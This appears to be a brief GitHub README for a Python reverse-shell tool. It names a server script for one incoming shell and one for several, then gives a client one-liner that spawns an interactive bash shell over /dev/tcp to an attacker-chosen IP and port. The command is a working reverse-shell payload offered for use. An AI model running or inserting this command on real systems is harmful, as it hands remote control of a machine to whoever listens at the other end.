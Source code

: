 # Reverse_shell

Reverse shell with python

- **reverse_server.py** For a single shell bounce
- **reverse_servers.py** Support multiple shell bounce

# Client command

	bash -c "bash -i &>/dev/tcp/<IP>/<Port> 0>&1"

